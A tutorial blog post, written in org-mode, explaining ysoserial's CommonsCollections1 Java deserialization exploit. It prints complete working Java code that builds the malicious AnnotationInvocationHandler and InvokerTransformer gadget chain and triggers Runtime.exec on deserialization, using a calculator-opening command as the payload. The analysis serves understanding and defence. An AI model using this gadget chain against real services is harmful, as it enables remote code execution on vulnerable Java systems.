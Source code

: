 #+TITLE: Understanding ysoserial's CommonsCollections1 exploit

#+MACRO: color @@html:<font color="$1">$2</font>@@

Last year(2015), ysoserial was released by frohoff and gebl. It is a fantastic piece of work. The tool provides options to generate several different types of serialized objects, which when deserialized, can result in arbitrary code execution if the right classes are present in the classpath. In this post, I will discuss the ~CommonsCollections1~ exploit, and its working, available in the ysoserial toolkit. 

*All code snippets used in this post are sourced from ysoserial*


* An Overview
  The CommonsCollections1 exploit builds a custom AnnotationInvocationHandler object that contains an InvokerTransformer (Apache Commons Collections class)payload, and outputs the serializaed object. When the serialized object is deserialized, the code path from AnnotationInvocationHandler's readObject leads to InvokerTransformer's payload, causing code execution.

The image below shows the custom AnnotationInvocationHandler object used for RCE.

When the serialized object is deserialized, the code path from AnnotationInvocationHandler's readObject leads to Invoker Transformer's payload, causing code execution.

The image below shows the custom AnnotationInvocationHandler object used for RCE.
#+CAPTION: The serialized AnnotationInvocationHandler
[[./img/Serialized_Object_Structure.png]]

What makes the exploit effective is that it only relies on the classes present in Java and Apache Commons Collections. The CommonsCollections1 leverages following classes from JDK and Commons Collections. 

*From JDK*
#+BEGIN_VERSE
1. AnnotationInvocationHandler
2. Proxy
3. Map
4. Override
5. InvocationHandler
6. Runtime
#+END_VERSE

*From Commons Collections*
#+BEGIN_VERSE
1. LazyMap
2. Transformer
3. ChainedTransformer
4. InvokerTransformer
#+END_VERSE

So, as long a Java software stack contains Apache commons Collections library(<= 3.2.1), it will be vulnerable to remote execution attacks while deserializing untrusted objects. 

* Pre-requisities
It will be helpful to refer to the following Classes and concepts as we work our way to understaing the exploit. 

#+BEGIN_VERSE
1. Java Serialization and Deserialization mechanisms
2. {{{color(red,ObjectInputStream)}}} - including readObject()
3. {{{color(red,Proxy)}}} 
4. {{{color(red,InvocationHandler)}}} 
5. {{{color(red,Transformer)}}} 
6. {{{color(red,LazyMap)}}} 
7. {{{color(red,ChainedTransformer)}}} 
8. {{{color(red,InvokerTransformer)}}} - Instances of this class were used to perform code execution and we will discuss this in more details below. 
#+END_VERSE

Since InvokerTransformer class is the eventual sink that performs code execution, lets us take a closer look at it. An InvokerTransformer constructor takes three parameters:
#+BEGIN_VERSE
1. Name of the method
2. Parameter types the method accepts
3. Parameters values
#+END_VERSE

#+CAPTION: The constructor of InvokerTransformer
[[./img/InvokerTransformer-constructor.png]]

An InvokerTransformer instance accepts an object as input and outputs the transformed object. The tranformation is determined by the instatiation parameters. The InvokerTransformer first finds a method with the method name (specified as first parameter) that accepts the given parameters types (specified as second paramter) on the incoming object. Upon finding a matching method, the method on the incoming object and the parameter values from (3) as passed arguments into the method. The returned value is the value of the method execution. 

#+CAPTION: Shows InvokerTransformer
[[./img/InvokerTransformer.png]]


* Payload Only Execution
Assuming you understand how Transformers, ChainedTransformers and LazyMaps work, we will look at CommonsCollections1's payload only execution using a ChainedTransformer. When you run the class below, it will open a calculator on a Mac.

#+BEGIN_SRC java
public class CommonsCollections1PayloadOnly {
    public static void main(String... args) {
        String[] command = {"open -a calculator"};
        final Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class), //(1)
                new InvokerTransformer("getMethod",
                        new Class[]{ String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}
                ), //(2)
                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}
                ), //(3)
                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        command
                ) //(4)
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        Map map = new HashMap<>();
        Map lazyMap = LazyMap.decorate(map, chainedTransformer);
        lazyMap.get("gursev");
    }
}
#+END_SRC

The image below the execution flow when the chainedTransformer in the code snippet above is executed while setting a value on the lazyMap. The number in braces correspond to the individual Transformer execution in the code snippet above. 

#+CAPTION: Show chainedTransformer invocation when a value is set on the LazyMap
[[./img/InvokerTransformer-3.png]]

* Putting it all together
The code below performs both serialization and deserialization. It also executes the command to open a calculator during the deserialization process. 

#+BEGIN_VERSE
1. The getEvilObject creates a Java Object that can arbitary code when deserialized. The object structure is provided in Figure 1.
2. The serializeToByteArray method serializes the evilObject to a byte array. 
3. The deserializeFromByteArray deserializes the object from the binary array. If Apache CommonCollections library(<=3.2.1) is present in the classpath, the command also gets executed. 
#+END_VERSE

#+BEGIN_SRC java
import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.InvocationTargetException;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

public class CommonsCollections1All {

    public static void main(String... args) throws ClassNotFoundException, IllegalAccessException, InvocationTargetException, InstantiationException, IOException {
        Object evilObject = getEvilObject();
        byte[] serializedObject = serializeToByteArray(evilObject);
        deserializeFromByteArray(serializedObject);
    }

    public static Object getEvilObject() throws ClassNotFoundException, IllegalAccessException, InvocationTargetException, InstantiationException {

        String[] command = {"open -a calculator"};

        final Transformer[] transformers = new Transformer[]{

                new ConstantTransformer(Runtime.class),

                new InvokerTransformer("getMethod",
                        new Class[]{ String.class, Class[].class},
                        new Object[]{"getRuntime", new Class[0]}
                ),

                new InvokerTransformer("invoke",
                        new Class[]{Object.class, Object[].class},
                        new Object[]{null, new Object[0]}
                ),

                new InvokerTransformer("exec",
                        new Class[]{String.class},
                        command
                )
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        Map map = new HashMap<>();
        Map lazyMap = LazyMap.decorate(map, chainedTransformer);

        String classToSerialize = "sun.reflect.annotation.AnnotationInvocationHandler";
        final Constructor<?> constructor = Class.forName(classToSerialize).getDeclaredConstructors()[0];
        constructor.setAccessible(true);
        InvocationHandler secondInvocationHandler = (InvocationHandler) constructor.newInstance(Override.class, lazyMap);
        Proxy evilProxy = (Proxy) Proxy.newProxyInstance(CommonsCollections1All.class.getClassLoader(), new Class[] {Map.class}, secondInvocationHandler );

        InvocationHandler invocationHandlerToSerialize = (InvocationHandler) constructor.newInstance(Override.class, evilProxy);
        return invocationHandlerToSerialize;

    }

    public static void deserializeAndDoNothing(byte[] byteArray) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(byteArray));
        ois.readObject();
    }

    public static byte[] serializeToByteArray(Object object) throws IOException {
        ByteArrayOutputStream serializedObjectOutputContainer = new ByteArrayOutputStream();
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(serializedObjectOutputContainer);
        objectOutputStream.writeObject(object);
        return serializedObjectOutputContainer.toByteArray();
    }

    public static Object deserializeFromByteArray(byte[] serializedObject) throws IOException, ClassNotFoundException {
        ByteArrayInputStream serializedObjectInputContainer = new ByteArrayInputStream(serializedObject);
        ObjectInputStream objectInputStream = new ObjectInputStream(serializedObjectInputContainer);
        InvocationHandler evilInvocationHandler = (InvocationHandler) objectInputStream.readObject();
        return evilInvocationHandler;
    }
}
#+END_SRC

The code path flow leading to code execution is discuessed below and is also summarized in figure 5. 

#+BEGIN_VERSE
1. The ObjectInputStream calls the readObject() method.
2. On method invocation, the JVM looks for the serialized Object's class in the classpath. If the class is not found, ClassNotFoundException is thrown. If the class is found, readObject() method of the identified class (AnnotationInvocationHandler) is invoked. This process is followed for all types of objects that get serialized with the CommonsCollections1 payload. 
3. The readObject method inside the AnnotationInvocationHandler invokes entrySet method on the MapProxy. 
4. The method invocation on the Proxy is transferred to AnnotationInvocationHandler coressponding to the MapProxy instance along with the method and a blank array. 
5. The lazyMap attempts to retrieve a value with key equal to the method name "entrySet".
6. Since that key does not exist, the lazyMap instance goes ahead and tries to create a new key with the name "entrySet".
7. Since a chainedTransformer is set to execute during the key creation process, the chained transformer with the malicious payload is invoked, leading to remote code execution. 
#+END_VERSE

#+CAPTION: Show the code path to RCE
[[./img/Exploit Flow.png]]

The following three images show the actual code path traversed from AnnotationInvocationHandler class leading up to LazyMap's ChainedTransformer invocation, resulting in RCE.

#+CAPTION: Shows AnnotationInvocationHandler's readObject() method that calls entrySet() on mapProxy
[[./img/readObject.png]]

#+CAPTION: Shows AnnotationInvocationHandler's invoke method that was attached to the mapProxy
[[./img/invoke-method.png]]

#+CAPTION: Shows transformer invocation when a key is not present
[[./img/getmethod-in-lazymap.png]]





* Ref
[fn:1] http://gursevkalra.blogspot.jp/2016/01/ysoserial-commonscollections1-exploit.html

